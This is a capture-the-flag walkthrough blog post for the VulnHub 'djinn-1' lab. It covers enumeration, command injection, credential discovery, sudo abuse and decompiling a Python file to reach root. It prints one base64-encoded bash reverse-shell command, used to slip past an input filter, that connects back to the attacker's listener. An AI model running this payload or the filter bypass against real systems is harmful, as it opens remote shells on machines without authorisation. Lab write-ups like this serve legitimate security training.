 <!-- wp:paragraph -->
<p><a href="https://www.vulnhub.com/entry/djinn-1,397/" target="_blank" rel="noreferrer noopener">https://www.vulnhub.com/entry/djinn-1,397/</a></p>
<!-- /wp:paragraph -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"vivid-purple","fontSize":"small"} -->
<p class="has-text-align-center has-vivid-purple-background-color has-background has-small-font-size">Review</p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><!-- wp:list-item -->
<li>Enumeration will lead to several open ports</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>FTP can be access anonymously and clues will be inside</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>A game server cant be connected on a browser but able to be connected through netcat</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Gobuster enumeration shows hidden directories</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Able to use LFI for command injection , however there are character restrictions</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Use base64 to bypass character restrictions</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Check for creds in the directories in the user</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Check for sudo permissions to gain user access</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Decompile a python file to find the answer for root access</li>
<!-- /wp:list-item --></ul>
<!-- /wp:list -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"luminous-vivid-amber","fontSize":"small"} -->
<p class="has-text-align-center has-luminous-vivid-amber-background-color has-background has-small-font-size"><strong>Enumeration</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Run nmap scan to find for open ports.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5130,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-469.png?w=709" alt="" class="wp-image-5130"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":5132,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-470.png?w=876" alt="" class="wp-image-5132"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":5134,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-471.png?w=1024" alt="" class="wp-image-5134"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>FTP Enumeration</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5136,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-472.png?w=924" alt="" class="wp-image-5136"/><figcaption class="wp-element-caption">Get the files in the FTP server</figcaption></figure>
<!-- /wp:image -->

<!-- wp:image {"id":5138,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-473.png?w=1008" alt="" class="wp-image-5138"/><figcaption class="wp-element-caption">Found some clues</figcaption></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Let's try connecting to the game server.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5154,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-482.png?w=1024" alt="" class="wp-image-5154"/><figcaption class="wp-element-caption">unable to connect</figcaption></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Let's use netcat to connect.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5156,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-483.png?w=691" alt="" class="wp-image-5156"/><figcaption class="wp-element-caption">Found the game server but we need to answer 1000 questions.</figcaption></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Port 7331 Http</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5140,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-474.png?w=1024" alt="" class="wp-image-5140"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Run a gobuster scan to find for hidden directories. </p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5145,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-477.png?w=1024" alt="" class="wp-image-5145"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>/genie is just an error page</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5143,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-476.png?w=1024" alt="" class="wp-image-5143"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>/wish</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5141,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-475.png?w=624" alt="" class="wp-image-5141"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>We are able to input cmd and view the info in the source page.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5152,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-481.png?w=501" alt="" class="wp-image-5152"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":5149,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-479.png?w=1024" alt="" class="wp-image-5149"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":5150,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-480.png?w=700" alt="" class="wp-image-5150"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Insert a bash shell but it shows an error shown below.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5187,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-492.png?w=1024" alt="" class="wp-image-5187"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>It seems there is some kind of input validation. Let's encode the script.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Use base64 to encode the bash reverse shell.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5189,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-493.png?w=655" alt="" class="wp-image-5189"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Start a netcat listener and add the encoded script with grep to decode in the /wish directory.</p>
<!-- /wp:paragraph -->

<!-- wp:code -->
<pre class="wp-block-code"><code>echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE4LjgvMTIzNCAwPiYxCg== | base64 -d | bash</code></pre>
<!-- /wp:code -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"vivid-cyan-blue","fontSize":"small"} -->
<p class="has-text-align-center has-vivid-cyan-blue-background-color has-background has-small-font-size"><strong>Foothold</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Access gained.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5191,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-494.png?w=1024" alt="" class="wp-image-5191"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>In the /opt/80 directory we find an interesting python program. Cat the program and we can find a directory that has some creds.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5196,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-496.png?w=1014" alt="" class="wp-image-5196"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>We are able to read the cred.txt file and find a password for a user.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5197,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-497.png?w=812" alt="" class="wp-image-5197"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Head the user directory to find the first flag.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5199,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-498.png?w=588" alt="" class="wp-image-5199"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph -->
<p>Check sudo permissions </p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5201,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-499.png?w=1024" alt="" class="wp-image-5201"/><figcaption class="wp-element-caption">Only the sam user allowed to run the sudo genie command.</figcaption></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Let's check out the genie command.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5203,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-500.png?w=1024" alt="" class="wp-image-5203"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Input the following to get the sam user.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5205,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-501.png?w=549" alt="" class="wp-image-5205"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph {"align":"center","backgroundColor":"black","textColor":"white","fontSize":"small"} -->
<p class="has-text-align-center has-white-color has-black-background-color has-text-color has-background has-small-font-size"><strong>Privilege escalation</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Check for sudo permissions.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5207,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-502.png?w=1024" alt="" class="wp-image-5207"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Let's check out the lago program</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5208,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-503.png?w=657" alt="" class="wp-image-5208"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":5209,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-504.png?w=838" alt="" class="wp-image-5209"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>in the same user we are able to find a hidden file call .pyc</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5225,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-513.png?w=1010" alt="" class="wp-image-5225"/><figcaption class="wp-element-caption">The file is compiled and we aren't able to get much info.</figcaption></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Transfer the file to your attacking machine and decompile the file.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5218,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-508.png?w=655" alt="" class="wp-image-5218"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":5219,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-509.png?w=622" alt="" class="wp-image-5219"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>I was unable to use <strong>uncompyle6</strong>  as it does not support python 3.10 and above. Dow load pycdc to decompile the file if you are using python 3.10 and above.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5223,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-512.png?w=439" alt="" class="wp-image-5223"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Run the program and we can see that if we input num in the 2nd option of the program we will get a root shell.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5222,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-511.png?w=574" alt="" class="wp-image-5222"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":5211,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-505.png?w=573" alt="" class="wp-image-5211"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Found the proof.sh flag in the root folder.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":5213,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-506.png?w=1024" alt="" class="wp-image-5213"/></figure>
<!-- /wp:image -->
